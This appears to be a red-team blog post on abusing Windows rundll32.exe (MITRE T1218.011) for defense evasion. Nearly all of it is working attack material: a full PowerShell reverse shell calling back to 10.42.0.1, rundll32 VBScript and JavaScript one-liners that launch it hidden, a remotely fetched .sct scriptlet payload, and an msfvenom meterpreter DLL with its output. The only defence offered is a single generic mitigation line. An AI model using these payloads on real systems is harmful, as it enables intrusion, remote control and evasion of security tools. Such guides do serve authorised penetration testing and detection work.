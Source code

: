 ```yaml
---
title: RUNDLL32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, rundll32]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.011`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# RUNDLL32
***rundll32.exe*** Is a windows utility that Loads and runs 32-bit dynamic-link libraries (DLLs).Adversaries may abuse rundll32.exe to proxy execution of malicious code.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("calc.exe"),0)

```
*invoking calculator*
![vbscalc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllcalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file [path/to/your/file.ps1]"":"),0)`

*Executing rev.ps1 to get a reverse shell*
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file rev.ps1"":"),0)

```
![vbsrevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevwin.png)

***Getting reversh shell***
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```
Command

> `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:[file_url]").Exec();`

*executing rundll32 to get reverse shell*
```batch

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.42.0.1/exploit.sct").Exec();

```

![rundll32win](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundlljsrevwin.png)

*getting reversh shell*

![rundll32](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

## Metasploit 

### Generating .dll Exploit With Msfvenom

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f dll -o [file_name.dll]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 -f dll -o exploit.dll
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 8704 bytes
Saved as: exploit.dll

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
exploit.dll

```

### Getting Meterpreter Shell

*executing rundll32 in windows*

command

> `rundll32 shell32.dll,Control_RunDLL [dll_file_path]`

```batch
rundll32 shell32.dll,Control_RunDLL C:\Users\IEUser\Desktop\exploit.dll
```
![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmetawin.png)

*setting metasploit listener, getting reverse shell*

![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring

# References

- [https://atomicredteam.io/defense-evasion/T1218.011/](https://atomicredteam.io/defense-evasion/T1218.011/)
- [https://attack.mitre.org/techniques/T1218/011/](https://attack.mitre.org/techniques/T1218/011/)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

